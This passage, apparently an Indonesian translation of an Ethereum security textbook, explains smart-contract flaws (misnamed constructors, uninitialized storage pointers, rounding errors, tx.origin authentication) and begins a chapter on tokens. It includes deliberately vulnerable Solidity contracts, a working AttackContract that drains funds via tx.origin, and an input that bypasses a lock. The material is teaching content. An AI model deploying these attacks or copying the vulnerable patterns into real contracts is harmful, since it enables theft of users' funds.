GovernMental, skema Ponzi lama yang disebutkan di atas, juga rentan terhadap serangan berbasis stempel waktu. Kontrak tersebut membayar kepada pemain yang merupakan pemain terakhir yang bergabung (setidaknya selama satu menit) dalam satu putaran. Dengan demikian, seorang penambang yang merupakan pemain dapat menyesuaikan stempel waktu (ke waktu mendatang, agar terlihat seolah-olah satu menit telah berlalu) untuk membuatnya tampak bahwa mereka adalah pemain terakhir yang bergabung selama lebih dari satu menit (meskipun ini tidak benar dalam kenyataannya). Detail lebih lanjut tentang ini dapat ditemukan di postingan “Sejarah Kerentanan Keamanan, Peretasan, dan Perbaikannya di Ethereum” oleh Tanya Bahrynovska.

### Hati-hati dengan Konstruktor

Konstruktor adalah fungsi khusus yang sering melakukan tugas-tugas kritis dan berhak istimewa saat menginisialisasi kontrak. Sebelum Solidity v0.4.22, konstruktor didefinisikan sebagai fungsi yang memiliki nama yang sama dengan kontrak yang menampungnya. Dalam kasus seperti itu, ketika nama kontrak diubah dalam pengembangan, jika nama konstruktor tidak diubah juga, ia menjadi fungsi normal yang dapat dipanggil. Seperti yang bisa Anda bayangkan, ini dapat menyebabkan (dan telah menyebabkan) beberapa peretasan kontrak yang menarik.

Untuk wawasan lebih lanjut, pembaca mungkin tertarik untuk mencoba tantangan Ethernaut (khususnya level *Fallout*).

##### Kerentanan

Jika nama kontrak diubah, atau ada kesalahan ketik pada nama konstruktor sehingga tidak cocok dengan nama kontrak, konstruktor akan berperilaku seperti fungsi normal. Ini dapat menyebabkan konsekuensi yang mengerikan, terutama jika konstruktor melakukan operasi yang memiliki hak istimewa. Pertimbangkan kontrak berikut:

```solidity
1 contract OwnerWallet {
2   address public owner;
3
4   // konstruktor
5   function ownerWallet(address _owner) public {
6     owner = _owner;
7   }
8
9   // Fallback. Kumpulkan ether.
10  function () public payable {}
11
12  function withdraw() public {
13    require(msg.sender == owner);
14    msg.sender.transfer(address(this).balance);
15  }
16 }
```

Kontrak ini mengumpulkan ether dan hanya mengizinkan pemilik untuk menariknya, dengan memanggil fungsi `withdraw`. Masalah muncul karena konstruktor tidak dinamai persis sama dengan kontrak: huruf pertama berbeda\! Dengan demikian, setiap pengguna dapat memanggil fungsi `ownerWallet`, mengatur diri mereka sebagai pemilik, dan kemudian mengambil semua ether di dalam kontrak dengan memanggil `withdraw`.

##### Teknik Pencegahan

Masalah ini telah diatasi dalam versi 0.4.22 dari kompiler Solidity. Versi ini memperkenalkan kata kunci `constructor` yang menentukan konstruktor, daripada mengharuskan nama fungsi cocok dengan nama kontrak. Menggunakan kata kunci ini untuk menentukan konstruktor direkomendasikan untuk mencegah masalah penamaan.

##### Contoh Dunia Nyata: Rubixi

Rubixi adalah skema piramida lain yang menunjukkan jenis kerentanan ini. Awalnya disebut `DynamicPyramid`, tetapi nama kontrak diubah sebelum penyebaran menjadi `Rubixi`. Nama konstruktor tidak diubah, memungkinkan setiap pengguna menjadi pencipta. Beberapa diskusi menarik terkait *bug* ini dapat ditemukan di Bitcoin‐talk. Pada akhirnya, ini memungkinkan pengguna untuk berebut status pencipta untuk mengklaim biaya dari skema piramida. Detail lebih lanjut tentang *bug* khusus ini dapat ditemukan di “Sejarah Kerentanan Keamanan, Peretasan, dan Perbaikannya di Ethereum”.

### Pointer Penyimpanan yang Tidak Diinisialisasi

EVM menyimpan data baik sebagai **penyimpanan (*storage*)** maupun sebagai **memori (*memory*)**. Memahami persis bagaimana ini dilakukan dan tipe default untuk variabel lokal dari fungsi sangat direkomendasikan saat mengembangkan kontrak. Ini karena dimungkinkan untuk menghasilkan kontrak yang rentan dengan menginisialisasi variabel secara tidak tepat.

Untuk membaca lebih lanjut tentang penyimpanan dan memori di EVM, lihat dokumentasi Solidity tentang lokasi data, tata letak variabel keadaan di penyimpanan, dan tata letak di memori.

> Bagian ini didasarkan pada postingan yang sangat baik oleh Stefan Beyer. Bacaan lebih lanjut tentang topik ini, yang terinspirasi oleh Stefan, dapat ditemukan di utas Reddit ini.

##### Kerentanan

Variabel lokal di dalam fungsi secara default menggunakan `storage` atau `memory` tergantung pada tipenya. Variabel `storage` lokal yang tidak diinisialisasi dapat berisi nilai dari variabel `storage` lain di dalam kontrak; fakta ini dapat menyebabkan kerentanan yang tidak disengaja, atau dieksploitasi dengan sengaja.

Mari kita pertimbangkan kontrak pendaftar nama yang relatif sederhana di Contoh 9-12.

**Contoh 9-12. NameRegistrar.sol**

```solidity
1 // Pendaftar nama yang terkunci
2 contract NameRegistrar {
3
4   bool public unlocked = false; // pendaftar terkunci, tidak ada pembaruan nama
5
6   struct NameRecord { // memetakan hash ke alamat
7     bytes32 name;
8     address mappedAddress;
9   }
10
11  // mencatat siapa yang mendaftarkan nama
12  mapping(address => NameRecord) public registeredNameRecord;
13  // menyelesaikan hash ke alamat
14  mapping(bytes32 => address) public resolve;
15
16  function register(bytes32 _name, address _mappedAddress) public {
17    // siapkan NameRecord baru
18    NameRecord newRecord;
19    newRecord.name = _name;
20    newRecord.mappedAddress = _mappedAddress;
21
22    resolve[_name] = _mappedAddress;
23    registeredNameRecord[msg.sender] = newRecord;
24
25    require(unlocked); // hanya izinkan pendaftaran jika kontrak tidak terkunci
26  }
27 }
```

Pendaftar nama sederhana ini hanya memiliki satu fungsi. Ketika kontrak tidak terkunci, ia memungkinkan siapa saja untuk mendaftarkan nama (sebagai hash `bytes32`) dan memetakan nama itu ke sebuah alamat. Pendaftar awalnya terkunci, dan `require` di baris 25 mencegah `register` menambahkan catatan nama. Tampaknya kontrak ini tidak dapat digunakan, karena tidak ada cara untuk membuka kunci registri\! Namun, ada kerentanan yang memungkinkan pendaftaran nama terlepas dari variabel `unlocked`.

Untuk membahas kerentanan ini, pertama-tama kita perlu memahami cara kerja penyimpanan di Solidity. Sebagai gambaran umum tingkat tinggi (tanpa detail teknis yang tepat—kami sarankan membaca dokumentasi Solidity untuk tinjauan yang tepat), variabel keadaan disimpan secara berurutan di dalam slot saat mereka muncul di kontrak (mereka dapat dikelompokkan bersama tetapi tidak dalam contoh ini, jadi kita tidak akan khawatir tentang itu). Dengan demikian, `unlocked` ada di `slot[0]`, `registeredNameRecord` di `slot[1]`, dan `resolve` di `slot[2]`, dst. Setiap slot ini berukuran 32 byte (ada kerumitan tambahan dengan *mapping*, yang akan kita abaikan untuk saat ini). Boolean `unlocked` akan terlihat seperti `0x000...0` (64 angka 0, tidak termasuk `0x`) untuk `false` atau `0x000...1` (63 angka 0) untuk `true`. Seperti yang Anda lihat, ada pemborosan penyimpanan yang signifikan dalam contoh khusus ini.

Potongan teka-teki berikutnya adalah bahwa Solidity secara default menempatkan tipe data kompleks, seperti *struct*, di `storage` saat menginisialisasinya sebagai variabel lokal. Oleh karena itu, `newRecord` di baris 18 secara default menggunakan `storage`. Kerentanan disebabkan oleh fakta bahwa `newRecord` **tidak diinisialisasi**. Karena secara default menggunakan `storage`, ia dipetakan ke `slot[0]` penyimpanan, yang saat ini berisi penunjuk ke `unlocked`. Perhatikan bahwa pada baris 19 dan 20 kita kemudian mengatur `newRecord.name` menjadi `_name` dan `newRecord.mappedAddress` menjadi `_mappedAddress`; ini memperbarui lokasi penyimpanan `slot[0]` dan `slot[1]`, yang memodifikasi baik `unlocked` maupun slot penyimpanan yang terkait dengan `registeredNameRecord`.

Ini berarti bahwa `unlocked` dapat dimodifikasi secara langsung, hanya dengan parameter `bytes32 _name` dari fungsi `register`. Oleh karena itu, jika byte terakhir dari `_name` bukan nol, itu akan memodifikasi byte terakhir dari `slot[0]` penyimpanan dan secara langsung mengubah `unlocked` menjadi `true`. Nilai `_name` seperti itu akan menyebabkan panggilan `require` di baris 25 berhasil, karena kita telah mengatur `unlocked` menjadi `true`. Coba ini di Remix. Perhatikan fungsi akan lolos jika Anda menggunakan `_name` dalam bentuk:
`0x0000000000000000000000000000000000000000000000000000000000000001`

##### Teknik Pencegahan

Kompiler Solidity menunjukkan peringatan untuk variabel penyimpanan yang tidak diinisialisasi; pengembang harus memperhatikan dengan cermat peringatan ini saat membangun kontrak pintar. Versi Mist saat ini (0.10) tidak mengizinkan kontrak ini untuk dikompilasi. Seringkali merupakan praktik yang baik untuk secara eksplisit menggunakan penentu `memory` atau `storage` saat berhadapan dengan tipe kompleks, untuk memastikan mereka berperilaku seperti yang diharapkan.

##### Contoh Dunia Nyata: OpenAddressLottery dan CryptoRoulette Honey Pots

Sebuah *honey pot* bernama OpenAddressLottery disebarkan yang menggunakan keanehan variabel penyimpanan yang tidak diinisialisasi ini untuk mengumpulkan ether dari beberapa calon peretas. Kontraknya agak rumit, jadi kami akan menyerahkan analisisnya ke utas Reddit di mana serangan tersebut dijelaskan dengan cukup jelas.

*Honey pot* lain, CryptoRoulette, juga memanfaatkan trik ini untuk mencoba mengumpulkan beberapa ether. Jika Anda tidak dapat mengetahui cara kerja serangan tersebut, lihat “Analisis Beberapa Kontrak Honeypot Ethereum” untuk gambaran umum tentang kontrak ini dan lainnya.

### Titik Mengambang dan Presisi

Saat tulisan ini dibuat (v0.4.24), Solidity tidak mendukung bilangan titik-tetap (*fixed-point*) dan titik-mengambang (*floating-point*). Ini berarti bahwa representasi titik-mengambang harus dibangun dengan tipe integer di Solidity. Hal ini dapat menyebabkan kesalahan dan kerentanan jika tidak diimplementasikan dengan benar.

> Untuk bacaan lebih lanjut, lihat wiki Teknik dan Kiat Keamanan Kontrak Ethereum.

##### Kerentanan

Karena tidak ada tipe titik-tetap di Solidity, pengembang diharuskan untuk mengimplementasikan sendiri menggunakan tipe data integer standar. Ada sejumlah jebakan yang bisa dihadapi pengembang selama proses ini. Kami akan mencoba menyoroti beberapa di antaranya di bagian ini.

Mari kita mulai dengan contoh kode (kita akan mengabaikan masalah *over/underflow*, yang dibahas sebelumnya di bab ini, untuk kesederhanaan):

```solidity
1 contract FunWithNumbers {
2   uint constant public tokensPerEth = 10;
3   uint constant public weiPerEth = 1e18;
4   mapping(address => uint) public balances;
5
6   function buyTokens() public payable {
7     // konversi wei ke eth, lalu kalikan dengan kurs token
8     uint tokens = msg.value/weiPerEth*tokensPerEth;
9     balances[msg.sender] += tokens;
10  }
11
12  function sellTokens(uint tokens) public {
13    require(balances[msg.sender] >= tokens);
14    uint eth = tokens/tokensPerEth;
15    balances[msg.sender] -= tokens;
16    msg.sender.transfer(eth*weiPerEth);
17  }
18 }
```

Kontrak jual beli token sederhana ini memiliki beberapa masalah yang jelas. Meskipun perhitungan matematis untuk membeli dan menjual token benar, ketiadaan bilangan titik-mengambang akan memberikan hasil yang salah. Misalnya, saat membeli token di baris 8, jika nilainya kurang dari 1 ether, pembagian awal akan menghasilkan 0, membuat hasil perkalian akhir menjadi 0 (misalnya, 200 wei dibagi 1e18 weiPerEth sama dengan 0). Demikian pula, saat menjual token, sejumlah token kurang dari 10 juga akan menghasilkan 0 ether. Faktanya, pembulatan di sini selalu ke bawah, jadi menjual 29 token akan menghasilkan 2 ether.

Masalah dengan kontrak ini adalah presisinya hanya sampai ether terdekat (yaitu, 1e18 wei). Ini bisa menjadi rumit saat berhadapan dengan desimal di token ERC20 ketika Anda membutuhkan presisi yang lebih tinggi.

##### Teknik Pencegahan

Menjaga presisi yang tepat di kontrak pintar Anda sangat penting, terutama saat berhadapan dengan rasio dan kurs yang mencerminkan keputusan ekonomi.

Anda harus memastikan bahwa setiap rasio atau kurs yang Anda gunakan memungkinkan pembilang besar dalam pecahan. Misalnya, kami menggunakan kurs `tokensPerEth` dalam contoh kami. Akan lebih baik menggunakan `weiPerTokens`, yang akan menjadi angka besar. Untuk menghitung jumlah token yang sesuai, kita bisa melakukan `msg.value/weiPerTokens`. Ini akan memberikan hasil yang lebih presisi.

Taktik lain yang perlu diingat adalah memperhatikan **urutan operasi**. Dalam contoh kami, perhitungan untuk membeli token adalah `msg.value/weiPerEth*tokensPerEth`. Perhatikan bahwa pembagian terjadi sebelum perkalian. (Solidity, tidak seperti beberapa bahasa, menjamin untuk melakukan operasi dalam urutan penulisannya.) Contoh ini akan mencapai presisi yang lebih besar jika perhitungannya melakukan perkalian terlebih dahulu lalu pembagian; yaitu, `msg.value*tokensPerEth/weiPerEth`.

Terakhir, saat mendefinisikan presisi sewenang-wenang untuk angka, bisa menjadi ide yang baik untuk mengubah nilai ke presisi yang lebih tinggi, melakukan semua operasi matematika, lalu akhirnya mengubah kembali ke presisi yang diperlukan untuk output. Biasanya `uint256` digunakan (karena optimal untuk penggunaan gas); ini memberikan sekitar 60 orde besaran dalam jangkauannya, beberapa di antaranya dapat didedikasikan untuk presisi operasi matematika. Mungkin lebih baik menyimpan semua variabel dalam presisi tinggi di Solidity dan mengubah kembali ke presisi yang lebih rendah di aplikasi eksternal (ini pada dasarnya adalah cara kerja variabel `decimals` di kontrak token ERC20). Untuk melihat contoh bagaimana ini bisa dilakukan, kami sarankan melihat DS-Math. Ini menggunakan beberapa penamaan yang aneh (“wads” dan “rays”), tetapi konsepnya berguna.

##### Contoh Dunia Nyata: Ethstick

Kontrak Ethstick tidak menggunakan presisi yang diperluas; namun, ia berurusan dengan wei. Jadi, kontrak ini akan memiliki masalah pembulatan, tetapi hanya pada tingkat presisi wei. Kontrak ini memiliki beberapa kelemahan yang lebih serius, tetapi ini berkaitan kembali dengan kesulitan mendapatkan entropi di blockchain (lihat “Ilusi Entropi” di halaman 193). Untuk diskusi lebih lanjut tentang kontrak Ethstick, kami akan merujuk Anda ke postingan lain oleh Peter Vessenes, “Kontrak Ethereum Akan Menjadi Permen bagi Peretas”.

### Autentikasi Tx.Origin

Solidity memiliki variabel global, `tx.origin`, yang melintasi seluruh tumpukan panggilan (*call stack*) dan berisi alamat akun yang awalnya mengirim panggilan (atau transaksi). Menggunakan variabel ini untuk autentikasi dalam kontrak pintar membuat kontrak rentan terhadap serangan seperti *phishing*.

> Untuk bacaan lebih lanjut, lihat pertanyaan Ethereum Stack Exchange dbryson, “Tx.Origin dan Ethereum Oh My\!” oleh Peter Vessenes, dan “Solidity: Serangan Tx Origin” oleh Chris Coverdale.

##### Kerentanan

Kontrak yang mengotorisasi pengguna menggunakan variabel `tx.origin` biasanya rentan terhadap serangan *phishing* yang dapat menipu pengguna untuk melakukan tindakan terautentikasi pada kontrak yang rentan.

Pertimbangkan kontrak sederhana di Contoh 9-13.

**Contoh 9-13. Phishable.sol**

```solidity
1 contract Phishable {
2   address public owner;
3
4   constructor (address _owner) public {
5     owner = _owner;
6   }
7
8   function () public payable {} // kumpulkan ether
9
10  function withdrawAll(address _recipient) public {
11    require(tx.origin == owner);
12    _recipient.transfer(address(this).balance);
13  }
14 }
```

Perhatikan bahwa pada baris 11, kontrak mengotorisasi fungsi `withdrawAll` menggunakan `tx.origin`. Kontrak ini memungkinkan penyerang untuk membuat kontrak penyerang dalam bentuk:

```solidity
1 import "Phishable.sol";
2
3 contract AttackContract {
4
5   Phishable phishableContract;
6   address attacker; // Alamat penyerang untuk menerima dana
7
8   constructor (Phishable _phishableContract, address _attackerAddress) public {
9     phishableContract = _phishableContract;
10    attacker = _attackerAddress;
11  }
12
13  function () public payable {
14    phishableContract.withdrawAll(attacker);
15  }
16 }
```

Penyerang mungkin menyamarkan kontrak ini sebagai alamat pribadi mereka dan secara sosial merekayasa korban (pemilik kontrak `Phishable`) untuk mengirim beberapa bentuk transaksi ke alamat tersebut—mungkin mengirim kontrak ini sejumlah ether. Korban, kecuali berhati-hati, mungkin tidak memperhatikan bahwa ada kode di alamat penyerang, atau penyerang mungkin menyamarkannya sebagai dompet multisignature atau dompet penyimpanan canggih (ingat bahwa kode sumber kontrak publik tidak tersedia secara default).

Dalam kasus apa pun, jika korban mengirim transaksi dengan gas yang cukup ke alamat `AttackContract`, itu akan memanggil fungsi *fallback*, yang pada gilirannya memanggil fungsi `withdrawAll` dari kontrak `Phishable` dengan parameter `attacker`. Ini akan mengakibatkan penarikan semua dana dari kontrak `Phishable` ke alamat penyerang.

Ini karena alamat yang pertama kali menginisialisasi panggilan adalah korban (yaitu, pemilik kontrak `Phishable`). Oleh karena itu, **`tx.origin` akan sama dengan `owner`** dan `require` di baris 11 dari kontrak `Phishable` akan lolos.

##### Teknik Pencegahan

**`tx.origin` tidak boleh digunakan untuk otorisasi dalam kontrak pintar.** Ini bukan berarti variabel `tx.origin` tidak boleh digunakan sama sekali. Variabel ini memiliki beberapa kasus penggunaan yang sah dalam kontrak pintar. Misalnya, jika seseorang ingin menolak kontrak eksternal memanggil kontrak saat ini, seseorang dapat mengimplementasikan `require` dalam bentuk `require(tx.origin == msg.sender)`. Ini mencegah kontrak perantara digunakan untuk memanggil kontrak saat ini, membatasi kontrak ke alamat biasa tanpa kode.

### Pustaka Kontrak

Ada banyak kode yang ada yang tersedia untuk digunakan kembali, baik yang diterapkan di *on-chain* sebagai pustaka yang dapat dipanggil maupun di *off-chain* sebagai pustaka templat kode. Pustaka di platform, setelah diterapkan, ada sebagai kontrak pintar *bytecode*, jadi harus sangat berhati-hati sebelum menggunakannya dalam produksi. Namun, menggunakan pustaka di platform yang sudah mapan dan ada datang dengan banyak keuntungan, seperti dapat mengambil manfaat dari pembaruan terbaru, dan menghemat uang Anda serta memberi manfaat bagi ekosistem Ethereum dengan mengurangi jumlah total kontrak hidup di Ethereum.

Di Ethereum, sumber daya yang paling banyak digunakan adalah suite **OpenZeppelin**, sebuah pustaka kontrak yang luas mulai dari implementasi token ERC20 dan ERC721, hingga berbagai model *crowdsale*, hingga perilaku sederhana yang biasa ditemukan di kontrak, seperti `Ownable`, `Pausable`, atau `LimitBalance`. Kontrak di repositori ini telah diuji secara ekstensif dan dalam beberapa kasus bahkan berfungsi sebagai implementasi standar de facto. Mereka gratis untuk digunakan, dan dibangun serta dipelihara oleh Zeppelin bersama dengan daftar kontributor eksternal yang terus bertambah.

Juga dari Zeppelin adalah **ZeppelinOS**, sebuah platform sumber terbuka layanan dan alat untuk mengembangkan dan mengelola aplikasi kontrak pintar dengan aman. ZeppelinOS menyediakan lapisan di atas EVM yang memudahkan pengembang untuk meluncurkan DApps yang dapat ditingkatkan yang ditautkan ke pustaka *on-chain* dari kontrak yang telah teruji dengan baik yang juga dapat ditingkatkan. Berbagai versi dari pustaka ini dapat hidup berdampingan di platform Ethereum, dan sistem penjaminan memungkinkan pengguna untuk mengusulkan atau mendorong perbaikan ke arah yang berbeda. Seperangkat alat *off-chain* untuk men-debug, menguji, menyebarkan, dan memantau aplikasi terdesentralisasi juga disediakan oleh platform.

Proyek **ethpm** bertujuan untuk mengatur berbagai sumber daya yang berkembang di ekosistem dengan menyediakan sistem manajemen paket. Dengan demikian, registri mereka menyediakan lebih banyak contoh untuk Anda jelajahi:

  * [Situs web](https://www.ethpm.com/)
  * [Tautan registri](https://www.ethpm.com/registry)
  * [Tautan GitHub](https://github.com/ethpm)
  * [Dokumentasi](https://www.ethpm.com/docs/integration-guide)

### Kesimpulan

Ada banyak hal yang harus diketahui dan dipahami oleh setiap pengembang yang bekerja di domain kontrak pintar. Dengan mengikuti praktik terbaik dalam desain dan penulisan kode kontrak pintar Anda, Anda akan menghindari banyak jebakan dan perangkap yang parah.

Mungkin prinsip keamanan perangkat lunak yang paling mendasar adalah **memaksimalkan penggunaan kembali kode yang tepercaya**. Dalam kriptografi, ini sangat penting sehingga telah diringkas menjadi sebuah pepatah: “Jangan buat kripto Anda sendiri.” Dalam kasus kontrak pintar, ini berarti mendapatkan sebanyak mungkin dari pustaka yang tersedia secara bebas yang telah diperiksa secara menyeluruh oleh komunitas.

---

# BAB 10
## Token

Kata “token” berasal dari bahasa Inggris Kuno “*tācen*,” yang berarti tanda atau simbol. Kata ini biasa digunakan untuk merujuk pada barang-barang mirip koin untuk tujuan khusus yang dikeluarkan secara pribadi dengan nilai intrinsik yang tidak signifikan, seperti token transportasi, token binatu, dan token permainan arkade.

Saat ini, “token” yang dikelola di blockchain mendefinisikan ulang kata tersebut menjadi **abstraksi berbasis blockchain yang dapat dimiliki dan mewakili aset, mata uang, atau hak akses**.

Asosiasi antara kata “token” dan nilai yang tidak signifikan banyak berkaitan dengan penggunaan terbatas versi fisik dari token. Seringkali terbatas pada bisnis, organisasi, atau lokasi tertentu, token fisik tidak mudah dipertukarkan dan biasanya hanya memiliki satu fungsi. Dengan token blockchain, batasan-batasan ini dihilangkan—atau, lebih tepatnya, dapat didefinisikan ulang sepenuhnya. Banyak token blockchain melayani berbagai tujuan secara global dan dapat diperdagangkan satu sama lain atau dengan mata uang lain di pasar likuid global. Dengan hilangnya batasan penggunaan dan kepemilikan, ekspektasi “nilai yang tidak signifikan” juga menjadi sesuatu dari masa lalu.

Dalam bab ini, kita akan melihat berbagai penggunaan token dan bagaimana mereka dibuat. Kita juga akan membahas atribut token seperti fungibilitas dan intrinsikalitas. Akhirnya, kita akan memeriksa standar dan teknologi yang menjadi dasar mereka, dan bereksperimen dengan membangun token kita sendiri.

### Bagaimana Token Digunakan

Penggunaan token yang paling jelas adalah sebagai mata uang pribadi digital. Namun, ini hanyalah salah satu kemungkinan penggunaan. Token dapat diprogram untuk melayani banyak fungsi yang berbeda, seringkali tumpang tindih. Misalnya, sebuah token dapat secara bersamaan menyampaikan hak suara, hak akses, dan kepemilikan atas suatu sumber daya. Seperti yang ditunjukkan oleh daftar berikut, mata uang hanyalah “aplikasi” pertama:

  * **Mata Uang**
    Sebuah token dapat berfungsi sebagai bentuk mata uang, dengan nilai yang ditentukan melalui perdagangan pribadi.
  * **Sumber Daya**
    Sebuah token dapat mewakili sumber daya yang diperoleh atau diproduksi dalam ekonomi berbagi atau lingkungan berbagi sumber daya; misalnya, token penyimpanan atau CPU yang mewakili sumber daya yang dapat dibagikan melalui jaringan.
  * **Aset**
    Sebuah token dapat mewakili kepemilikan aset intrinsik atau ekstrinsik, berwujud atau tidak berwujud; misalnya, emas, real estat, mobil, minyak, energi, barang-barang MMOG, dll.
  * **Akses**
    Sebuah token dapat mewakili hak akses dan memberikan akses ke properti digital atau fisik, seperti forum diskusi, situs web eksklusif, kamar hotel, atau mobil sewaan.
  * **Ekuitas**
    Sebuah token dapat mewakili ekuitas pemegang saham dalam organisasi digital (mis., DAO) atau badan hukum (mis., perusahaan).
  * **Hak Suara**
    Sebuah token dapat mewakili hak suara dalam sistem digital atau hukum.
  * **Barang Koleksi**
    Sebuah token dapat mewakili barang koleksi digital (mis., CryptoPunks) atau barang koleksi fisik (mis., lukisan).
  * **Identitas**
    Sebuah token dapat mewakili identitas digital (mis., avatar) atau identitas hukum (mis., KTP nasional).
  * **Atestasi**
    Sebuah token dapat mewakili sertifikasi atau atestasi fakta oleh suatu otoritas atau oleh sistem reputasi terdesentralisasi (mis., catatan pernikahan, akta kelahiran, ijazah perguruan tinggi).
  * **Utilitas**
    Sebuah token dapat digunakan untuk mengakses atau membayar suatu layanan.

Seringkali, satu token mencakup beberapa fungsi ini. Terkadang sulit untuk membedakannya, karena padanan fisiknya selalu terkait erat. Misalnya, di dunia fisik, surat izin mengemudi (atestasi) juga merupakan dokumen identitas (identitas) dan keduanya tidak dapat dipisahkan. Di dunia digital, fungsi-fungsi yang sebelumnya menyatu dapat dipisahkan dan dikembangkan secara independen (mis., atestasi anonim).

### Token dan Fungibilitas

Wikipedia mengatakan: “Dalam ekonomi, **fungibilitas** adalah properti dari suatu barang atau komoditas yang unit-unit individunya pada dasarnya dapat dipertukarkan.”

Token bersifat **fungible** ketika kita dapat mengganti satu unit token dengan unit lainnya tanpa ada perbedaan nilai atau fungsinya.

Secara tegas, jika asal-usul historis sebuah token dapat dilacak, maka token tersebut tidak sepenuhnya fungible. Kemampuan untuk melacak asal-usul dapat menyebabkan *blacklisting* dan *whitelisting*, mengurangi atau menghilangkan fungibilitas.

Token **non-fungible** adalah token yang masing-masing mewakili barang berwujud atau tidak berwujud yang unik dan oleh karena itu tidak dapat dipertukarkan. Misalnya, sebuah token yang mewakili kepemilikan lukisan Van Gogh tertentu tidak setara dengan token lain yang mewakili lukisan Picasso, meskipun keduanya mungkin merupakan bagian dari sistem “token kepemilikan seni” yang sama. Demikian pula, sebuah token yang mewakili barang koleksi digital tertentu seperti CryptoKitty tertentu tidak dapat dipertukarkan dengan CryptoKitty lainnya. Setiap token non-fungible dikaitkan dengan pengenal unik, seperti nomor seri.

Kita akan melihat contoh token fungible dan non-fungible nanti di bab ini.

> Perhatikan bahwa “fungible” sering digunakan untuk berarti “dapat ditukarkan langsung dengan uang” (misalnya, token kasino dapat “diuangkan,” sementara token binatu biasanya tidak bisa). Ini bukan pengertian kata yang kami gunakan di sini.

### Risiko Pihak Lawan (Counterparty Risk)

**Risiko pihak lawan** adalah risiko bahwa pihak lain dalam suatu transaksi akan gagal memenuhi kewajiban mereka. Beberapa jenis transaksi menderita risiko pihak lawan tambahan karena ada lebih dari dua pihak yang terlibat. Misalnya, jika Anda memegang sertifikat deposito untuk logam mulia dan Anda menjualnya kepada seseorang, setidaknya ada tiga pihak dalam transaksi itu: penjual, pembeli, dan kustodian logam mulia. Seseorang memegang aset fisik; karena kebutuhan, mereka menjadi pihak dalam pemenuhan transaksi dan menambahkan risiko pihak lawan pada setiap transaksi yang melibatkan aset tersebut. Secara umum, ketika sebuah aset diperdagangkan secara tidak langsung melalui pertukaran token kepemilikan, ada risiko pihak lawan tambahan dari kustodian aset tersebut. Apakah mereka memiliki asetnya? Apakah mereka akan mengakui (atau mengizinkan) transfer kepemilikan berdasarkan transfer token (seperti sertifikat, akta, titel, atau token digital)? Di dunia token digital yang mewakili aset, seperti di dunia non-digital, penting untuk memahami siapa yang memegang aset yang diwakili oleh token dan aturan apa yang berlaku untuk aset yang mendasarinya.

### Token dan Intrinsikalitas

Kata “intrinsik” berasal dari bahasa Latin “*intra*,” yang berarti “dari dalam.”

Beberapa token mewakili barang digital yang **intrinsik** terhadap blockchain. Aset-aset digital tersebut diatur oleh aturan konsensus, sama seperti token itu sendiri. Ini memiliki implikasi penting: token yang mewakili aset intrinsik **tidak membawa risiko pihak lawan tambahan**. Jika Anda memegang kunci untuk CryptoKitty, tidak ada pihak lain yang memegang CryptoKitty itu untuk Anda—Anda memilikinya secara langsung. Aturan konsensus blockchain berlaku dan kepemilikan Anda (yaitu, kontrol) atas kunci privat setara dengan kepemilikan aset, tanpa perantara apa pun.

Sebaliknya, banyak token digunakan untuk mewakili hal-hal **ekstrinsik**, seperti real estat, saham pemungutan suara perusahaan, merek dagang, dan batangan emas. Kepemilikan barang-barang ini, yang tidak berada “di dalam” blockchain, diatur oleh hukum, kebiasaan, dan kebijakan, terpisah dari aturan konsensus yang mengatur token. Dengan kata lain, penerbit dan pemilik token mungkin masih bergantung pada kontrak non-pintar di dunia nyata. Akibatnya, aset-aset ekstrinsik ini membawa risiko pihak lawan tambahan karena dipegang oleh kustodian, dicatat dalam registri eksternal, atau dikendalikan oleh hukum dan kebijakan di luar lingkungan blockchain.

Salah satu konsekuensi terpenting dari token berbasis blockchain adalah kemampuan untuk mengubah aset ekstrinsik menjadi aset intrinsik dan dengan demikian menghilangkan risiko pihak lawan. Contoh yang baik adalah beralih dari ekuitas di perusahaan (ekstrinsik) ke token ekuitas atau pemungutan suara di DAO atau organisasi serupa (intrinsik).

### Menggunakan Token: Utilitas atau Ekuitas

Hampir semua proyek di Ethereum saat ini diluncurkan dengan semacam token. Tetapi apakah semua proyek ini benar-benar membutuhkan token? Apakah ada kerugian menggunakan token, atau akankah kita melihat slogan “tokenisasi semua hal” menjadi kenyataan? Pada prinsipnya, penggunaan token dapat dilihat sebagai alat manajemen atau organisasi pamungkas. Dalam praktiknya, integrasi platform blockchain, termasuk Ethereum, ke dalam struktur masyarakat yang ada berarti bahwa, sejauh ini, ada banyak batasan pada penerapannya.

Mari kita mulai dengan mengklarifikasi peran token dalam proyek baru. Mayoritas proyek menggunakan token dalam salah satu dari dua cara: baik sebagai “**token utilitas**” atau sebagai “**token ekuitas**.” Sangat sering, kedua peran itu digabungkan.

**Token utilitas** adalah token di mana penggunaan token diperlukan untuk mendapatkan akses ke layanan, aplikasi, atau sumber daya. Contoh token utilitas termasuk token yang mewakili sumber daya seperti penyimpanan bersama, atau akses ke layanan seperti jaringan media sosial.

**Token ekuitas** adalah token yang mewakili saham dalam kontrol atau kepemilikan sesuatu, seperti sebuah startup. Token ekuitas bisa sesederhana saham tanpa hak suara untuk distribusi dividen dan keuntungan, atau seluas saham dengan hak suara dalam organisasi otonom terdesentralisasi, di mana manajemen platform melalui beberapa sistem tata kelola yang kompleks berdasarkan suara oleh pemegang token.

#### Itu Bebek\!

Banyak startup menghadapi masalah sulit: token adalah mekanisme penggalangan dana yang hebat, tetapi menawarkan sekuritas (ekuitas) kepada publik adalah kegiatan yang diatur di sebagian besar yurisdiksi. Dengan menyamarkan token ekuitas sebagai token utilitas, banyak startup berharap untuk menghindari pembatasan peraturan ini dan mengumpulkan uang dari penawaran publik sambil menampilkannya sebagai pra-penjualan “voucher akses layanan” atau, seperti yang kita sebut, token utilitas. Apakah penawaran ekuitas yang disamarkan tipis ini akan dapat menghindari regulator masih harus dilihat. Seperti kata pepatah populer: “Jika berjalan seperti bebek dan bersuara seperti bebek, itu bebek.” Regulator kemungkinan tidak akan terganggu oleh pemutarbalikan semantik ini; justru sebaliknya, mereka lebih mungkin melihat akal-akalan hukum seperti itu sebagai upaya untuk menipu publik.

#### Token Utilitas: Siapa yang Membutuhkannya?

Masalah sebenarnya adalah bahwa token utilitas menimbulkan risiko signifikan dan hambatan adopsi bagi startup. Mungkin di masa depan yang jauh “tokenisasi semua hal” akan menjadi kenyataan, tetapi saat ini himpunan orang yang memiliki pemahaman dan keinginan untuk menggunakan token adalah bagian dari pasar mata uang kripto yang sudah kecil.

